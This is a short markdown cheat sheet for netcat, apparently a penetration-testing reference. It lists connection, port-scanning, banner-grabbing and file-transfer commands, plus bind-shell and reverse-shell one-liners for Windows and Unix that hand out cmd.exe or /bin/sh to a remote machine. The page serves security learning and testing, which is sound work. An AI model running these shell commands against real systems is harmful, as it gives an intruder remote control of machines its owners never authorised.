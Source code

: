 ```yaml
---
title:  "Netcat Cheat Sheet"
header: "Netcat Cheat Sheet"
categories: 
  - Cheatsheet
tags:
  - Netcat
---
```


# Usage
***
Insert picture here

# Basic  
***
***TCP Port - Connecting***  
`nc -nv <IP> <PORT>`

**TCP Port - Listening**  
`nc -lvp <PORT>`

**Connect and return HTTP Page**  
`nc -nv <IP> 80`
`HEAD / HTTP/1.1`

**File Transfer**  
`nc -lvp 4444 > output.txt # Receiving End`  
`nc -nv <IP> < input.txt # Sending End`

**Port Scanning**  
`nc -z <IP> <PORT RANGE>`

**Banner Grabbing**  
`echo "" | nc -nv -w1 <IP Address> <Ports>`

# Windows  
***
**Bind Shell**  
`nc -lvp 4444 -e cmd.exe`  
`nc -nv <IP> 4444`

**Reverse Shell**  
`nc -lvp 443 # Attacking Machine - Receiving`  
`nc -nv <IP> 443 -e cmd.exe # Target Machine - Sending`

# Nix  
***
**Bind Shell**  
`nc -lvp 4444 -e /bin/sh`  
`nc -nv <IP> 4444`

**Reverse Shell**  
`nc -lvp 443`  
`nc -nv <IP> 443 -e /bin/sh`


# Additional Resources  
***
[SANS Netcat Cheat Sheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)  

[Wikipedia](https://en.wikipedia.org/wiki/Netcat)
